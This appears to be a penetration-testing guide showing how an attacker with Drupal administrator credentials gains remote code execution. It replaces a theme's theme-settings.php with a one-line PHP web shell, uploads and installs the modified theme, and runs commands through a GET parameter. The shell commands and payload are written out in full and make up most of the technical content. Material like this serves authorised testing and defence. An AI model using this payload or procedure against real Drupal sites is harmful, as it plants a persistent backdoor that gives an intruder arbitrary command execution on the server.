

# Drupal - Upload a theme

## Requirements

 - A valid **username and password** of a user with **admin rights** on Drupal.

## Exploitation

Drupal restricts direct access to files and folders, so we have to inject our RCE payload into a theme-specific file that the CMS dynamically loads.

## Creating the theme archive

Visit the themes section on the Drupal website [here](https://www.drupal.org/project/project_theme) and download a theme zip file. We'll use the [Zen](https://www.drupal.org/project/zen/releases/8.x-7.0-alpha15) theme for this example.

After extracting the zip file, find and replace the `theme-settings.php` file with the RCE payload and recreate the zip file of the theme folder:

```sh
wget https://ftp.drupal.org/files/projects/zen-8.x-7.0-alpha15.zip
unzip zen-8.x-7.0-alpha15.zip
echo '<?php system($_GET[0]); ?>' > zen/theme-settings.php
zip -9 -r zen.zip zen/
```

## Accessing dashboard and installing theme

Login with a user with administrative rights on the Drupal at [http://TARGET/user/login](http://TARGET/user/login)


Select "Appearance" from the side menu and click "+Add new theme" on the next page, which should load the following page:



Select the modified theme zip file and click "Continue". If the files are uploaded, it should display a message similar to below:


Go back to the "Appearance" page and find the newly uploaded theme listed under the "Uninstalled themes" section. Click the "install" button under the theme name, and the theme should be under the "Installed themes" section now:


Click on the "settings" option of the theme, which will load the settings page with the injected RCE payload. In our case with the injected payload, we can add the GET parameter `?0=id` and receive RCE output:


## References
 - https://www.drupal.org/project/zen
